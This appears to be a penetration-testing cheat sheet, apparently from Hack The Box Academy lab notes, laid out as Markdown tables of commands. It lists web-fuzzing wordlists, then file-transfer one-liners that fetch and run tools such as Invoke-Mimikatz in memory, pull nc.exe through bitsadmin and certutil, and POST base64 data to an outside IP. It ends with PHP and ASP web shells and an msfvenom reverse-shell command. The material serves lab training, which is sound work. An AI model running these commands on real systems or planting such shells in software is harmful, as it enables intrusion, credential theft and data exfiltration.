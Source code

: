 ## Wordlists

| Command | Description |
|---------|-------------|
| `/opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt` | Directory/Page Wordlist |
| `/opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt` | Extensions Wordlist |
| `/opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt` | Domain Wordlist |
| `/opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt` | Parameters Wordlist |

## Miscellaneous Commands

| Command | Description |
|---------|-------------|
| `sudo sh -c 'echo "SERVER_IP academy.htb" >> /etc/hosts'` | Add DNS entry |
| `for i in $(seq 1 1000); do echo $i >> ids.txt; done` | Create Sequence Wordlist |
| `curl http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=key' -H 'Content-Type: application/x-www-form-urlencoded'` | curl w/ POST |

# File Transfers

| Command | Description |
|---------|-------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

# File Upload Shell

| Web Shell | Description |
|-----------|-------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |

